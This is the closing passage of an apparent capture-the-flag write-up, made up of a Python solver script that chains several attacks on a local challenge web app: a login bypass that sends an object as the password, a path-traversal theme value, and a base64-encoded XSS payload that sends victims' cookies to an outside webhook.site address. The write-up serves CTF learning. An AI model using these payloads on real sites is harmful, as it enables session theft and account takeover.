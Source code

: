 By obtaining the PoC payload, adapting it to the current challenge environment, and then applying base64 encoding before delivery, the challenge can ultimately be solved.

## Solver

```python
import requests as req

url = 'http://localhost:3000'

admin = req.Session()
user = req.Session()
inspector = req.Session()

username = 'goldleo1'
password = 'af049f3jforgjju0'

res = admin.post(f'{url}/auth/login', json={
    'username': 'admin',
    'password': {'password': '1'}
})
admin.cookies.update({"jwt": res.json().get('token')})

res = inspector.post(f'{url}/auth/login', json={
    'username': 'inspector',
    'password': {'password': '1'}
})
inspector.cookies.update({"jwt": res.json().get('token')})

res = user.post(f'{url}/auth/register', json={
    'username': username,
    'password': password
})
res = user.post(f'{url}/auth/login', json={
    'username': username,
    'password': password
})
user.cookies.update({"jwt": res.json().get('token')})

res = admin.post(f'{url}/admin/user/perm', json={
    'username': username,
    'value': True
})

res = user.post(f'{url}/post/write', json={
    'title': 'dummy',
    'content': '<form action="//localhost:3000/admin/test"><input type="text" name="content" value="PG1hdGg+PGN1c3RvbS10ZXN0PjxtaT48bGk+PHRhYmxlPjxjdXN0b20tdGVzdD48bGk+PC9saT48L2N1c3RvbS10ZXN0PjxhPg0KICAgICAgPHN0eWxlPg0KICAgICAgICA8ISBcJHsNCiAgICAgIDwvc3R5bGU+DQogICAgICB9DQogICAgICA8Y3VzdG9tLWIgaWQ9Ij48aW1nIHNyYyBvbmVycm9yPSdsb2NhdGlvbi5ocmVmPWBodHRwczovL2EzOTMyNzVlLWExOTctNDk3Ny05ZWIzLThhMGNkODAzYWFiOC53ZWJob29rLnNpdGUvP3E9YC5jb25jYXQoZG9jdW1lbnQuY29va2llKTsnPiI+aG1tLi4uPC9jdXN0b20tYj4NCiAgICA8L2E+PC90YWJsZT48L2xpPjwvbWk+PC9jdXN0b20tdGVzdD48L21hdGg+"><button id="delete" class="slider">a</button></form>' ,
    'theme': '../switch'
})
post_id = res.json().get('post')

res = inspector.get(f'{url}/report/{post_id}')
print(res.text)

```
